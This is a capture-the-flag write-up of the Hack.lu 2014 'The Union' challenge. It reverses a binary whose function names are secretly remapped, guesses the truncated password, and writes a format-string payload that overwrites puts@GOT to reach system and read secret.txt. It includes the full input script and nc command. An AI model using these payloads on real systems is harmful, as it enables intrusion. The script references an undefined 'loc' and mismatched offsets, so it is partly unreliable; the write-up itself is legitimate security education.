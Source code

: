 # Hack.lu CTF 2014: The Union

**Category:** Exploiting
**Points:** 200
**Author:** sqall
**Description:**

> Our biggest competitor the mining corporation, The Union, has a new way of organizing its mining facilities. On the surface, it looks like a mining location archive. But our man inside told us, it has a secret trapdoor that we can use to infiltrate the corporation and steal their secret. We need their secret. They have one success after another and it will not be long until we are finished. Our informant also told us that not everything is what it seems to be. We do not know what this means. Luckily for us, he managed to get us the blueprints of the system. So we should be able to study them before we went for the heist. So, this is your job. Study the blueprints and then go for the valuable `secret.txt`. This is everything we need to overcome them.
>
> Download: [theunion_9edfcf7b247775ab57da993863bfaabd](theunion_9edfcf7b247775ab57da993863bfaabd)
>
> `nc wildwildweb.fluxfingers.net 1423`

## Write-up

When connecting to the server, it greets us with the following prompt:

```
	Welcome to
 _   _                        _             _
| |_| |__   ___   _   _ _ __ (_) ___  _ __ ( )___
| __| '_ \ / _ \ | | | | '_ \| |/ _ \| '_ \|// __|
| |_| | | |  __/ | |_| | | | | | (_) | | | | \__ \
 \__|_| |_|\___|  \__,_|_| |_|_|\___/|_| |_| |___/

			mining archive.

Please give the unions slogan and secret word:
```

By looking at the disassembly of the binary, we figure out that the password is the string `gold>silver`, concatenated with the contents of the file `salt.txt`, which we don’t know.

When playing with the binary locally, we noticed the following oddity: even if we had a trailing newline in the `salt.txt`, we could still get access even though the input password is read without the trailing newline. This caused us to take a closer look at the string comparison part of the code:

```
080489af         mov        dword [ss:esp+0x8], 0xc         # argument 3 ??
080489b7         mov        eax, dword [ss:ebp+var_40]
080489ba         mov        dword [ss:esp+0x4], eax         # argument 2
080489be         lea        eax, dword [ss:ebp+var_21]
080489c1         mov        dword [ss:esp], eax             # argument 1
080489c4         call       strcmp@PLT
080489c9         test       eax, eax
080489cb         jne        0x80488fc
```

At this point we recalled the hint “not everything is what it seems to be” and figured that probably not `strcmp` is called, but `memcmp`, which takes an additional `length` parameter. This means that actually only the first 12 characters of the password are checked, which is only one additional character to what we already know! After two tries we find the correct access code:

```
Please give the unions slogan and secret word:
gold>silverb
Correct slogan.

1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
```

Looking at the xrefs of some of the strings in the binary, we find the ‘trapdoor’:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
99
Ufff! You found our trapdoor.
Ok here you go. Everything in here is not what it seems to be.
If you do not understand this, you are not quite there yet.
```

That’s not really helpful. The disassembly of the function however is:

```
08049209         mov        ebp, esp
0804920b         sub        esp, 0x18
0804920e         mov        dword [ss:esp], 0x8049b08                           ; "Ufff! You found our trapdoor.", argument #1 for method puts@PLT
08049215         call       puts@PLT
0804921a         mov        eax, dword [ds:stdout]                              ; stdout
0804921f         mov        dword [ss:esp+0x4], eax                             ; argument #2 for method fputs@PLT
08049223         mov        dword [ss:esp], 0x8049b28                           ; "Ok here you go. Everything in here is not what it seems to be.\\n", argument #1 for method fputs@PLT
0804922a         call       fputs@PLT
0804922f         cmp        dword [ss:ebp+arg_0], 0x0
08049233         je         0x8049243

08049235         mov        dword [ss:esp], 0x8049b68                           ; "This is what you should use.", argument #1 for method printf@PLT
0804923c         call       printf@PLT
08049241         jmp        0x804924f

08049243         mov        dword [ss:esp], 0x8049b88                           ; "If you do not understand this, you are not quite there yet.", argument #1 for method puts@PLT, XREF=sub_8049208+43
0804924a         call       puts@PLT

0804924f         mov        eax, dword [ds:stdout]                              ; stdout, XREF=sub_8049208+57
08049254         mov        dword [ss:esp], eax                                 ; argument #1 for method fflush@PLT
08049257         call       fflush@PLT
0804925c         leave
0804925d         ret
```

Two things of interest:

1. `fputs(..., stdout)` is used, although it does the same thing as `puts`, which is used in the same function
2. The call to `printf` is unreachable, so probably some kind of hint.

We suspect that `fputs` and `printf` are also not what they seem. Some digging into the ELF headers confirms this: `DT_STRTAB` points to a string table that contains slightly different function names than the symbol table would have us believe. We note:

* `strcmp` is really `strncmp`
* `printf` is really `system`
* `fputs` is really `printf`

`printf` is never called with user input, but `fputs` is. This leaves us with a format string vulnerability, which can be triggered as follows:

```
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
1
Please give the location:
%d
Please give the type of the mine:
foo
Please give the profit of the mine:
1
1) Add mine
2) Show mines
3) Delete mine
4) Show profit
5) Exit
4
Do you want to see the profit?
Location: Dingo canyon
Type: silver
y/n
n
Do you want to see the profit?
Location: Joe's rock
Type: gold
y/n
n
Do you want to see the profit?
Location: Dynamite Bill's boulder
Type: diamond
y/n
n
Do you want to see the profit?
Location: %d
Type: foo
y/n
y
Profit for location:
-143864192             <= this is the output of the printf
foo
1
```

When breaking on `fputs@PLT`, we can inspect the stack layout and we find that the user-controlled string `Type: foo` is conveniently located at stack offset `42`.

From here the exploit is straightforward: We perform two 2-byte writes to overwrite `puts@GOT` (`0x0804b028`) so that it contains the address of `printf@PLT` (`0x080485e0`), which is really `system`. The type of our mine serves both as the pointers for the `%hn` modifiers and as the shell command we want to execute.

This Python script produces output that can be piped right into the server to get the flag:

```
print 'gold>silverb'
print 1
print '%2052d%12$hn%32220d%13$hn'
print loc
print 'sh #BB\x2a\xb0\x04\x08\x28\xb0\x04\x08'
print 1
print 4
print 'n\nn\nn\ny'
print 'cat secret.txt\n' * 100
```

And sure enough:

```bash
$ python input.py | nc wildwildweb.fluxfingers.net 1423
...
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
FLAG{d1aM0nd>G0lD}
...
```

The flag is `FLAG{d1aM0nd>G0lD}`.

## Other write-ups and resources

* none yet
